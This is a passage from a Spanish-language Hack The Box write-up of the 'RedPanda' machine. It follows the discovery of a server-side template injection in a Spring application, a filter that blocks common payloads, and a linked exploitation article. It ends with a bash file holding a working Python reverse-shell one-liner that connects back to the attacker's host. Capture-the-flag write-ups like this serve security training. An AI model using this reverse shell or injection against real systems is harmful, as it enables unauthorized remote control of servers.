 Es vulnerable a SSTI

<img src="/writeups/assets/img/RedPanda-htb/3.png" alt="">

Pero en caso de que quiera ejecutar comandos con los payloads típicos me bloquea ciertos caracteres

<img src="/writeups/assets/img/RedPanda-htb/4.png" alt="">

Introduzco una ruta que no existe, y aparece un error descriptivo con el nombre ```WhiteLabel```

<img src="/writeups/assets/img/RedPanda-htb/5.png" alt="">

Encuentro este [artículo](https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/) en el que explican un SSTI para esta ocasión

<img src="/writeups/assets/img/RedPanda-htb/6.png" alt="">

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell

```null
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

